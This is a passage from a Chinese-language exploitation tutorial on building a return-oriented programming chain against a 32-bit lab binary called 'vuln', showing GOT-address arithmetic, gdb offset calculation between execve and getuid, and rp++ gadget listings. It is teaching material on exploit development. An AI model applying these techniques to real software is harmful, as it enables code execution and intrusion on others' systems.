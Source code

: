 -Gadget 2: 确保EBX中含有getuid的GOT表项。getuid的GOT表项(如下所示)位于0x804a004处。因此，EBX必须要读入0x804a004, 但是在add gadget中一个常量(0x5d5b04c4)添加到了EBX中，我们就从EBX中减去那个常量： ebx =0x804a004 -0x5d5b04c4 = 0xaaa99b40。 现在我们需要找到一个gadget用来将这个值(0xaaa99b40)拷贝到EBX寄存器中。  
  
``` bash
$ objdump -R vuln
vuln: file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE 
08049ff0 R_386_GLOB_DAT __gmon_start__
0804a000 R_386_JUMP_SLOT printf
0804a004 R_386_JUMP_SLOT getuid
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```
太棒了！ 我们找到一个’pop gadget’! 因此，在将值(0xaaa99b40)push到栈中之后，再返回到“pop EBX”指令，EBX中就有了0xaaa99b40.  

-Gadget 3: 确保EAX含有偏移差。 我们需要找到一个gadget将偏移差拷贝到EAX寄存器中。  

```
$ gdb -q vuln
...
(gdb) p execve
$1 = {} 0xb761a1f0 
(gdb) p getuid
$2 = {} 0xb761acc0 
(gdb) p/x execve - getuid
$4 = 0xfffff530
(gdb) 
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x080484a3: popl %ebp ; ret ; (1 found)
0x080485cf: popl %ebp ; ret ; (1 found)
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```